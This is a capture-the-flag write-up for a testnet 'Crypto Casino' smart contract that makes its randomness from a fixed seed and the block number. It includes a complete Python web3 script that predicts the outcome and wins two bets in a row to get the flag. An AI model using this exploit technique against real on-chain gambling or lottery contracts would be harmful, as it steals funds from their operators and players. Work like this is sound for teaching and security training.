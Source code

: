 # Crypto Casino
We were given the challenge text:
```
there's is cool decentralized casino, you can play as much as you want but if you lose once you lost everything

address : 0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59
```

Along with the file [contract.sol](contract.sol).

In the contract source code we see that it generated a number, `uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;` where the seed is defined as `keccak256("satoshi nakmoto");`. First it encodes the seed and the current block numer, this is then hashed using keccask256. This is then casted to an integer, and XORed with 0x539. Since I was using Python to do transactions, I rewrote it in Python.

```py
seed = w3.solidityKeccak(['string'], ['satoshi nakmoto']) # https://eth-abi.readthedocs.io/en/latest/encoding.html#non-standard-packed-mode-encoding
guess = encode_abi_packed(['bytes', 'uint256'], (seed, w3.eth.block_number()+1)) # +1 since we need the block number after our tx has passed. https://eth-abi.readthedocs.io/en/latest/encoding.html#non-standard-packed-mode-encoding
guess = w3.solidityKeccak(['bytes'], [guess])
guess = int(guess.hex(), 16) ^ 0x539
```

We need our `guess` argument to be equal to the contract's `num` 2 times in a row for us to be able to get the flag. Here's my final Python code
```py
from eth_abi.packed import encode_abi_packed
from time import sleep
from web3 import Web3, HTTPProvider
from web3.middleware import geth_poa_middleware

w3 = Web3(Web3.HTTPProvider('https://rinkeby.infura.io/v3/API_KEY')) # Instead of running a local node to connect to the Rinkeby network, I used https://infura.io/

w3.middleware_onion.inject(geth_poa_middleware, layer=0) # Some stuff StackOverflow told me to add after I got errors

contract_address = '0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59' # The address of the contract

# I used http://remix.ethereum.org/ to generate the ABI for me from the source code, this allows web3 to know what kind of functions exist in the contract, what those function return, etc.
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[{"internalType":"uint256","name":"guess","type":"uint256"}],"name":"bet","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"","type":"address"}],"name":"consecutiveWins","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"done","outputs":[{"internalType":"int","name":"","type":"int"}],"stateMutability":"view","type":"function"}]

contract = w3.eth.contract(contract_address, abi=abi)

# Mimics the code from the contract so we get the correct guess
seed = w3.solidityKeccak(['string'], ['satoshi nakmoto'])
guess = encode_abi_packed(['bytes', 'uint256'], (seed, w3.eth.block_number()+1))
guess = w3.solidityKeccak(['bytes'], [guess])
guess = int(guess.hex(), 16) ^ 0x539

for _ in range(2): # the contract requires us to bet correctly twice
    transaction = contract.functions.bet(guess).buildTransaction({ # this time we have to send a tx instead of simply calling the function, as we want to make a change on the blockchain
        'gas': 70000,
        'gasPrice': w3.toWei('1', 'gwei'),
        'from': 'ETH pub key',
        'nonce': w3.eth.getTransactionCount('ETH pub key')
        }) 
    private_key = 'ETH priv key' 
    txn_hash = w3.eth.account.signTransaction(transaction, private_key=private_key)
    txn_receipt = w3.eth.sendRawTransaction(txn_hash.rawTransaction)
    sleep(16) # blocktime on Rinkeby is 15 seconds, sleep until we're guaranteed in the next block to prevent "already known" error.

print(contract.functions.done().call({'from': 'ETH pub key'})) # call the done function which should return the flag if we've betted correctly more than once
```

Once again I encountered the problem I had on crackme, the only output I got was `102`. Since I had modified the library to output raw response data as well, I removed the nullbytes from it and got the flag: `flag{D3CN7R@l1Z3D_C@51N0S_5uck531}`.